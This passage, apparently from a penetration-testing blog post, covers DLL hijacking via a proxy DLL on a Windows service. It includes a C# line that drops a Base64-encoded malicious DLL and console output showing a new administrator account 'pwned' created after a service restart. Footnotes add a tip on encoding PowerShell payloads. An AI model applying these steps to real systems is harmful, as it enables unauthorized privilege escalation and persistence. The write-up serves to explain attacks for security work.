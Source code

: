 Hold on! Our `DLL` barely contains any code. I specifically selected the one with the least used functions, but chances are our service would still crash while starting up, because it's looking for functions that we simply don't provide. Maybe our payload would run, maybe not. It would be quite suspicious and fairly easy to pin point in any case.

What we need is a mechanism similar to the dynamic redirection we did previously on `Linux` via `dlsym()`. In other words, we need a way of proxying calls to the _original_ `DLL`.

Enter `DLL Proxying`. I won't go over the details, as someone else did a fantastic job [already](https://github.com/tothi/dll-hijack-by-proxying). At this point there's no benefit of deep-diving into the specifics, as it boils down to some arcane `linker` directives. Following the steps laid out in the repository is just fine.

With that, we now have three files to drop:

-   the original `DLL`
-   the malicious `DLL` (which also acts as a proxy)
-   the payload.bat script

Dropping itself is as simple as storing the files as `Base64` encoded strings inline in the request and calling something like:

```text
 File.WriteAllBytes(@"D:\path", Convert.FromBase64String(dllString))
```

After doing so, let's manually simulate a service restart:

```text { linenos=true, linenostart=1, hl_lines=["12","23","30"] }
Microsoft Windows [Version 10.0.17763.2565]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>net users

User accounts for \\V-SRV-WIN2019
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Gast
WDAGUtilityAccount
The command completed successfully.

C:\Users\Administrator>net stop <service name> && net start <service name>

The <redacted> service was stopped successfully.
The <redacted> service is starting.
The <redacted> service was started successfully.

C:\Users\Administrator>net users

User accounts for \\V-SRV-WIN2019
-------------------------------------------------------------------------------
Administrator            DefaultAccount           Gast
pwned                    WDAGUtilityAccount
The command completed successfully.

C:\Users\Administrator>net user pwned

User name                    pwned
---snip---
Local Group Memberships      *Administratoren      *Benutzer
Global Group memberships     *Kein
The command completed successfully.
```


[^fn:1]: As opposed to [query syntax](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/concepts/linq/query-syntax-and-method-syntax-in-linq).
[^fn:2]: Here's your friendly reminder that environment variables are **not** a safe place to store secrets.
[^fn:3]: You can find more information and a pretty diagram [here](https://docs.microsoft.com/en-us/iis/get-started/introduction-to-iis/introduction-to-iis-architecture#http-request-processing-in-iis).
[^fn:4]: Again, `Microsoft` has [more](https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities) information on the topic.
[^fn:5]: You should instead check out the man himself [here](https://fasterthanli.me/series/reading-files-the-hard-way).
[^fn:6]: It's not as straightforward to obtain the imports of a binary as it is on `Linux`. In the end, I simply loaded the .exe into `Ghidra` and looked at the "Symbol Tree".
[^fn:7]: At first, I've simply used the amazing [CyberChef](https://gchq.github.io/CyberChef/) to encode the command. It turns out that this will trip up `PowerShell`, as it's expecting an `Unicode` string. To make it work, we have to encode our command to `UTF-16LE` before applying the `Base64` encoding. This can be done with `CyberChef` as well. Of course it can.